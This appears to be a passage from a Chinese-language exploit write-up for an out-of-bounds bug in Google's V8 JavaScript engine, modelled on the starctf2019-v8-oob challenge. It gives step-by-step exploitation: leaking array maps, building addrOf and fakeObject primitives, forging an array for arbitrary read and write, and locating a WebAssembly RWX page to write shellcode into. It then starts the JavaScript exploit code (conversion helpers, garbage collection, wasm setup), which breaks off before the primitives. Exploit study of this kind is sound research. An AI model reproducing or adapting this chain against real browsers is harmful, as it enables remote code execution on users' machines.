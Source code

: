 从上述可知，目前可以利用该漏洞越界读写一个字节，参考starctf2019-v8-oob解题思路，泄露float_array_map和obj_array_map，进行互相覆盖，造成类型混淆。

（1）利用漏洞越界读map，泄露float_array_map，由于obj_array_map是一个map对象，而不是浮点数对象，不能直接越界读，但map 生成的时候偏移是固定的，可以利用float_array_map 加上偏移获取obj_array_map

（2）构造fakeObject和addrOf原语

构造addrOf时，泄露出来的float_array_map是一个浮点数，不能用于直接覆盖obj array的map，需要将float_array_map先转成一个map对象，所以先构造fakeObject原语，将float_array_map 转成一个float array map 对象。

（3）和starctf2019-v8-oob类似，构造fake_array和faked_object，此时可以通过fake_array[2] 修改faked_object->elements，通过fake_array[3] 修改faked_object->length。所以将faked_object->elements填充为fake_array，faked_object->length改成0x2000，就可以对faked_object进行越界读写。

![img](D:\github\De4dCr0w.github.io\_posts\image\5-1597719508911.png)

（4） 在fake_array后面布置data_buf和obj，根据mark查找wasm_function对象的地址，根据data_buf的大小查找data_buf-> backing_store，用于构造任意读写原语。

（5）根据wasm_function–>shared_info–>WasmExportedFunctionData（data）–>instance+0xe8 找到rwx的区域，将shellcode写入该区域即可。



exp 代码：

```javascript
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var Uint32 = new Uint32Array(buf);

function f2i(f)
{
	float64[0] = f;
	let tmp = Array.from(Uint32);
	return tmp[1] * 0x100000000 + tmp[0]; 
}

function i2f(i)
{
	let tmp = [];
	tmp[0] = parseInt(i % 0x100000000);
	tmp[1] = parseInt((i-tmp[0]) / 0x100000000);
	Uint32.set(tmp);
	return float64[0];
}

function hex(i)
{
	return i.toString(16).padStart(16, "0");
}

function gc() {
    for (let i = 0; i < 100; i++) {
        new ArrayBuffer(0x100000);
    }
}

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var wasm_function = wasmInstance.exports.main;

var obj;
```